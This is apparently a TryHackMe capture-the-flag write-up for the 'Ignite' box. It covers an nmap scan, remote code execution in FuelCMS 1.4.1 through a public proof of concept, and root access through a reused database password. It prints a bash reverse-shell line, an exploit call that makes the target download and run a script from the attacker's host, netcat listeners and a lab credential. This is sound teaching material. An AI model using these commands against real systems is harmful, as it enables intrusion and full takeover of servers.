


**Hi, There,**
I got free time to solve a easy box from  try hack me, this box its actually easy one, it consist exploiting a content management system(CMS) so called fuelCMS which was vulnerable with code execution, and rooted with password reuse.


## recon
### nmap
found one port,80

```
┌──(kali㉿kali)-[~/thm/ignite]
└─$ sudo nmap -p- --open -sV -A -n -Pn 10.10.138.76
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-16 19:19 EAT
Nmap scan report for 10.10.138.76
Host is up (0.24s latency).
Not shown: 63864 closed tcp ports (reset), 1670 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=9/16%OT=80%CT=1%CU=30543%PV=Y%DS=2%DC=T%G=Y%TM=6505D68
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:06%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.97 ms 10.9.0.1
2   245.81 ms 10.10.138.76

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.20 seconds

```
### website
site
`port:80` : found the website here,


tech stack
website run fuelCMS version 1.4.1

## shell as www-data

### Identify Vulnerability

 we target port 80, we search for fuel cms 1.4.1 exploit



found this site [FUEL CMS CVE](https://securityforeveryone.com/tools/fuelcms-1-4-1-remote-code-execution-cve-2018-16763) 

### Vulnerability Details

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter

### exploit

using this poc [POC](https://github.com/noraj/fuelcms-rce) , 
clone the POC,

```
┌──(kali㉿kali)-[~/thm/ignite]
└─$ git clone https://github.com/noraj/fuelcms-rce.git
┌──(kali㉿kali)-[~/thm/ignite]
└─$ cd fuelcms-rce
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$
```

open another terminal, then create payload and start web server
```   
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ echo "/bin/bash -i >& /dev/tcp/10.9.113.16/9001 0>&1" > rev.sh

┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ python3 -m http.server 80
```

back on POC terminal,
```

┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ ruby exploit.rb http://10.10.138.76 'wget+http://10.9.113.16/rev.sh'

```

open new terminal and listen reverse shell
```
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ nc -lnvp 9002
```

back to POC terminal and  then run exploit again

```
┌──(kali㉿kali)-[~/thm/ignite/fuelcms-rce]
└─$ ruby exploit.rb http://10.10.138.76 'bash+rev.sh'
```

i got shell as www-data, 

```
┌──(kali㉿kali)-[~/thm/ignite]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.9.113.16] from (UNKNOWN) [10.10.138.76] 33312
bash: cannot set terminal process group (962): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
www-data@ubuntu:/var/www/html$ ls /home/     
www-data
www-data@ubuntu:/var/www/html$ ls /home/www-data/
flag.txt
www-data@ubuntu:/var/www/html$ cat /home/www-data/flag.txt 
6470e394cbf6dab6a91682cc858*****
www-data@ubuntu:/var/www/html$ 

```

upgrade shell,

```
www-data@ubuntu:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ubuntu:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 9001
┌──(kali㉿kali)-[~/thm/ignite]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 9001
                               reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@ubuntu:/var/www/html$ 
```

## shell as root

### enumeration

inside www-data webroot

```
root@ubuntu:/var/www/html# ls -la
total 64
drwxrwxrwx 4 root     root      4096 Sep 16 10:43 .
drwxr-xr-x 3 root     root      4096 Jul 26  2019 ..
drwxrwxrwx 9 root     root      4096 Jul 26  2019 assets
-rwxrwxrwx 1 root     root       193 Jul 26  2019 composer.json
-rwxrwxrwx 1 root     root      6502 Jul 26  2019 contributing.md
drwxrwxrwx 9 root     root      4096 Jul 26  2019 fuel
-rw-r--r-- 1 root     root       163 Jul 26  2019 .htaccess
-rw-r--r-- 1 www-data www-data   361 Sep 16 09:28 index.html
-rwxrwxrwx 1 root     root     11802 Jul 26  2019 index.php
-rw-r--r-- 1 www-data www-data     0 Sep 16 10:08 linpeas.sh
-rwxrwxrwx 1 root     root      1427 Jul 26  2019 README.md
-rw-r--r-- 1 www-data www-data    47 Sep 16 09:26 rev.sh
-rwxrwxrwx 1 root     root        30 Jul 26  2019 robots.txt
-rw-r--r-- 1 www-data www-data     3 Sep 16 09:10 test.txt
root@ubuntu:/var/www/html#
```
there folder fuel, the app folder i will definitely looking for sensitive information like password, a database password
### vulnerability Details

after looking around i found 

`application/config/database.php`
checking inside

```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

```

crucial information

```
'password' => 'mememe',
```

admin always are lazy and reuse password so why give a try to login as other users,
### exploit

```
www-data@ubuntu:/var/www/html/fuel$ su www-data
Password: 
su: Authentication failure
www-data@ubuntu:/var/www/html/fuel$ su root
Password: 
root@ubuntu:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/var/www/html/fuel# cat /root/root.txt
b9bbcb33e11b80be759c4e844862**** 
root@ubuntu:/var/www/html/fuel#
```

we got root, easy
Happy Hacking !!


